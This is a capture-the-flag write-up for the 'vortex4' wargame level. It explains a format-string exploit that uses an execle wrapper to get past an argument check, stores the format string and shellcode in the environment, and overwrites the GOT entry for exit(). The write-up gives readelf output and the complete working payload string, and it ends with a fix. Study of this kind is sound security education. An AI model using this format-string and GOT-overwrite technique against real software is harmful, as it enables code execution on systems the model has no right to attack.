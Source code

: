 Obviously, we need to exploit the `printf(...)` call on line 8 for which we can provide an arbitrary format string. This will allow us to set an arbitrary value anywhere in a writeable memory location. 

The first difficulty is bypassing the check on line 7 which makes passing any arguments conventionally on the command line impossible. I'm using an `execle`-wrapper passing an empty argument vector `argv_` and the actual arguments in the environment vector `envp`. These two vectors are adjacent in memory, so accessing `argv[3]`  actually corresponds to accessing `envp[2]`, this is where to actually put the format string parameter. For more information about `execle`, see the [glibc manual](http://www.gnu.org/software/libc/manual/html_node/Executing-a-File.html#Executing-a-File).

The next difficulty is to locate the format string in memory. Unlike the examples from the reading material, the buffer isn't immediately located on the stack. It's necessary to get hold of it from where the environment variables are located; and that's past the lower stack boundary, towards the higher memory addresses. Here's the memory layout:

    Stack       |                 |
                +-----------------+
                |                 |
     argv  ---> +-----------------+
                | Command line    |
                | arguments       |
     environ -> +-----------------+
                | Environment     |
                | variables:      |
                | - Format string |
                | - NOP-slide     |
                | - Shellcode     |
                +-----------------+
                |                 |
    0xffffffff  +=================+   end of memory address space


I wrote some sample programs that display the memory addresses of environment variables, to get a hint of where the shellcode would be located in the process memory (see `getenv.c` and `listenv.c`). This is roughly around `0xffffdXXX`.

Next step consists in choosing a memory location that will ultimately alter `%eip`'s value. I chose to overwrite the GOT's entry for libc's `exit()`, which is called at the end of the vulnerable program:
     $ readelf -r /vortex/vortex4 
     
     Relocation section '.rel.dyn' at offset 0x28c contains 1 entries:
      Offset     Info    Type            Sym.Value  Sym. Name
     08049ff0  00000106 R_386_GLOB_DAT    00000000   __gmon_start__
     
     Relocation section '.rel.plt' at offset 0x294 contains 4 entries:
      Offset     Info    Type            Sym.Value  Sym. Name
     0804a000  00000107 R_386_JUMP_SLOT   00000000   __gmon_start__
     0804a004  00000207 R_386_JUMP_SLOT   00000000   __libc_start_main
     0804a008  00000307 R_386_JUMP_SLOT   00000000   printf
     0804a00c  00000407 R_386_JUMP_SLOT   00000000   exit
The last entry with address `0x0804a00c` is the interesting one, this will be the target address. Following is the format string used to exploit this level:
     \x0c\xa0\x04\x08\x0d\xa0\x04\x08\x0e\xa0\x04\x08\x0f\xa0\x04\x08A%108\$n%5\$0206d%109\$n%5\$032d%110\$n%111\$n

Note: to avoid such a vulnerability, you should use `printf("%s", argv[3])` instead. Refer to the suggested reading material for details.

